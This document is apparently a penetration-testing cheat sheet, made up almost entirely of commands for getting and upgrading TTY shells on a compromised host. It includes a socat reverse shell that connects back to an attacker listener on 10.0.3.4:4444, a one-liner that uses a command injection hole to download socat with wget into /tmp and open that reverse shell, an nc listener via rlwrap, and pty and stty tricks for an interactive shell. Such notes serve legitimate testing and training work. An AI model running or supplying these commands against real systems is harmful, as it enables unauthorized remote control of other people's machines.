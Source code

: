 # TTY Shells

### **Bash**

```bash
/bin/bash -i
echo os.system('/bin/bash')
/bin/sh -i
```

### **Python**

```python
python -c "import pty; pty.spawn('/bin/bash')"
```

### **Perl**

```perl
perl -e 'exec "/bin/bash";'
```

### Socat

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If <mark style="color:green;">`socat`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> isn’t installed, there are standalone binaries that can be downloaded from this Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture <mark style="color:green;">`socat`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> binary to a writable directory, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### rlwrap

```bash
sudo apt install rlwrap
rlwrap -cAr nc -nvlp [PORT]
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Interactive TTY

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo;fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

## Resource

{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys#method-2-using-socat" %}
